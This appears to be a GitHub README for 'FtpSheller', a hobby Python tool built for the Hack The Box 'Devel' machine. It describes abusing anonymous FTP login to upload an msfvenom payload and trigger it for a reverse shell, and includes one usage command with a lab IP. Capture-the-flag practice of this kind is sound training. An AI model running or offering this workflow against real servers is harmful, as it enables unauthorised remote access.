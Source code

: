 # FtpSheller

**What is this?**

I made this script for fun for getting a shell on one of the machines at www.hackthebox.eu called Devel.
It'll check for anonymous login on the FTP server. If that's allowed it'll craft a payload and store it on the FTP server.
Then it'll trigger the payload, returning a shell to you.

There's still a bunch of stuff I'd like to do, so consider this a beta release.

Hit me up on NetSecFocus' slack if you have any suggestions! I'd love to hear them.

**Prerequisites:**

- Python 2.7
- Curl
- Msfvenom


**How to:**

Download nc.py and FtpSheller.py.
Run it by specifying the RHOST, LHOST, LPORT and PayloadType, e.g.:

python FtpSheller.py --rhost 10.10.10.5 --lhost *your IP* --lport 4444 --payloadType aspx

If all goes well you'll be given a reverse shell!

